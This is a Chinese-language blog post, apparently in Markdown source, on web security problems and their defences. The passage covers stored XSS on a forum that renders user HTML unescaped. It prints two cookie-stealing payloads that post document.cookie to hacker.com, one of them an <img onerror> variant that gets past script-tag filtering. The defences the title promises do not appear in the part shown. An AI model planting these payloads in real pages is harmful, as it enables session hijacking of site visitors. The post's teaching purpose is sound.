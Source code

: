 ```yaml
---
title: Web 安全常见问题与防御措施
date: 2021-11-15 20:00:00
tags: 
- Secure
- JS
- HTML
categories: 
- DOC
---
```


记录 Web 开发中常见的安全问题以及防御方法。



# XSS 跨站脚本攻击

考虑到以下场景：
论坛网站，因为帖子支持表情、特殊字体字号等，所以帖子使用 HTML，并以此提交后端、入库储存；
看帖的页面，直接使用服务端渲染的方式输出：

```jsp
<%= postContent %>
```

<br />

这是很常见的场景，例如 Discuz 论坛等都是这种形式，而这也正是 XSS 跨站脚本攻击诞生的背景。

考虑以下情况，某黑客发帖，内容如下：

```html
你好
<script>
  $.post({ url: 'https://hacker.com', data: document.cookie })
</script>
```

因为用户贴文被直接插入页面中，任何访问这篇帖子的用户都会中招，导致 Cookie 被发送给恶意网站。
这种攻击方式简单直观，却很致命。

最初级的防御措施，是禁止任何 `<script>` 标签，但这解决不了问题，黑客可以换一种发帖内容：

```html
你好
<img 
  src="no"
  style="displaye: none;"
  onerror="$.post({ url: 'https://hacker.com', data: document.cookie })"
/>
```

只需要使用一个 `<img>` 类的标签，赋予一个不存在的资源，这样它的 `onerror` 必定触发，此时只需要把代码写在事件回调中即可。
虽然攻击方式还是一样的，但是，这种方式就很难防御了，毕竟想识别这种攻击代码比 `<script>` 标签要复杂多了。
